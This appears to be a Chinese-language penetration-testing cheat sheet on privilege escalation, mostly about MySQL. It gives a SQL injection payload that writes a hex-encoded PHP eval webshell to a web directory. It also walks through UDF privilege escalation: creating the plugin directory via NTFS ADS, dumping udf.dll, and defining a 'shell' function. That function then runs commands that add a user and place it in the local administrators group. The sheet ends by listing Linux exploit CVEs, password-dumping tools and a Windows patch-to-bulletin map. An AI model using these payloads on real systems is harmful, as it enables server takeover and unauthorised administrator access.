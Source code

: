 ## mssql提权
TODO
## mysql 提权
## UDF提权
虽然MySQL的内置函数虽然丰富，但毕竟不能满足所有人的需要，有时候我们需要对表中的数据进行一些处理而内置函数不能满足需要的时候，就需要对 MySQL 进行一些扩展，这就是可以自行添加的MySQL 的 UDF。

MYSQL5.1及之后的几个版本又多了一个限制：创建函数时所用的DLL只能放在mysql的plugin目录里面，而且这个plugin目录默认是不存在的，可能就是为了防止黑客通过导出文件的方式将DLL来写到这个文件夹，如果导出文件（`into dumpfile`）的目标目录不存在是会报错的。

**所以在导出UDF提权之前 ，先确定一下MYSQL的版本是有必要的**(`select version();`)

## 写入一句话木马

```sql
union select 
0x3c3f70687020406576616c28245f504f53545b2770617373275d293b3f3e,2,3 into 
dumpfile 'c:/www/small.php'

# 以上语句连续执行两次，如果出现以下错误，即说明文件写入成功：
# Invalid Query：File 'c:/www/small.php' already exists
# 第二次写入提示文件已存在则说明文件写入成功
```
## 查看MYsql安装根目录
```sql
select @@basedir;
```
根据 我们前面讲述的MySQL5.1版本及其之后版本，我们自定义函数需要用到的shell导出的目录应该是： 
`C:/Program Files/phpStudy/MySQL/lib/plugin/`

其实也可以通过以下语句获得插件目录(*并不一定真实存在*):
`show variables like '%plugin%';`

## 创建/lib/plugin目录
```sql
select 'test' into dumpfile 'C:/Program Files/phpStudy/MySQL/lib::INDEX_ALLOCATION';   
# 利用NTFS ADS创建lib目录

select 'test' into dumpfile 'C:/Program Files/phpStudy/MySQL/lib/plugin::INDEX_ALLOCATION';
# 利用NTFS ADS创建plugin目录
```

**利用NTFS ADS创建目录成功率很小，这个命令执行返回一直为空，二次执行不提示目录已存在，即可判断目录创建失败。如上图即目录创建失败。**

将udf.dll 导出到plugin目录
```sql
select load_file('C:/www/udf.dll') into dumpfile 'C:/Program Files/phpStudy/MySQL/lib/plugin/udf.dll';
```

通过sql语句通过udf.dll 创建shell函数

```sql
create function shell returns string soname 'udf.dll';
# 假设此时udf.dll被上传到了c:\windows\system32目录

create function shell returns string soname 'C:udf.dll';
# 假设此时udf.dll被上传到了C盘根目录目录

create function shell returns string soname 'udf.dll';
# 假设此时udf.dll被上传到了任意的环境变量目录，如C:\php\
```

### 用法
`shell`函数用于执行系统命令，用法如下
```sql
# 我们尝试在服务器添加一个用户名为`matrix`密码为`matrix`的账户:  

select shell('cmd','net user matrix matrix /add');

# 接着尝试把`matrix`账户添加到`administrators`管理组：  
select shell('cmd','net localgroup administrators matrix /add');  
# 然后查看详细的账户信息，确认是否已经成功添加上账户和账户是否已经被成功添加到管理员组。如下操作：  
select shell('cmd','net user matrix');
```
---

提权完毕之后我们可以通过以下语句删除相关函数以防被他人利用：
```sql
drop function shell;
# 删除函数
delete from mysql.func where name='shell';
# 删除函数
```
## linux 
- CVE-2016-5195 脏牛漏洞
- CVE-2016-8655：Linux内核竞争条件漏洞
- CVE-2017-1000367 sudo本地提权漏洞:selinux必须开

## win
## 系统密码破解
1. getpass.exe 
2. minikz
## 补丁对应漏洞
```
KB2360937 →MS10-084
KB2478960 →MS11-014
KB2507938→ MS11-056
KB2566454→ MS11-062
KB2646524 →MS12-003
KB2645640→ MS12-009
KB2641653→ MS12-018
KB944653 →MS07-067
KB952004 →MS09-012
KB971657 →MS09-041
KB2620712→ MS11-097
KB2393802→ MS11-011
kb942831 →MS08-005
KB2503665 →MS11-046
KB2592799→ MS11-080  
```
